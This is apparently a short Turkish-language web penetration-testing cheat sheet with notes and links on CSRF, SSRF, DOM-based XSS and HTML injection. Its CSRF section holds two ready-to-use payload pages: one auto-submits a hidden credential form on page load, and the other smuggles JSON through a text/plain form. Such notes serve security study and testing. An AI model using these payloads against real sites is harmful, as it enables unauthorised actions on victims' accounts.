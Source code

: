 [PayloadsAllTheThings/Server Side Template Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

## Cross-Side Request Forgery (CSRF)

```jsx
<html>
<body onload='document.CSRF.submit()'>

<form action='http://targetWebsite/Authenticate.jsp' method='POST' name='CSRF'>
    <input type='hidden' name='name' value='Hacked'>
    <input type='hidden' name='password' value='Hacked'>
</form>

</body>
</html>
```

JSON eksik hatası verirse 

```jsx
<html>
 <body>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
```

## Server-Side Request Forgery (SSRF)

[SSRF (Server Side Request Forgery)](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)

[PayloadsAllTheThings/Server Side Request Forgery at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

## DOM-Based XSS

Tespit edilmesi daha zordur. Source ve sink’ler bulunmalıdır. Dom Invader kullanılabilir.

DOMXSS 

[JavaScript Injection](http://www.domxss.com/domxss/01_Basics/04_eval.html)

## HTML Injection

h1 tag i denenebilir iframe denenebilir
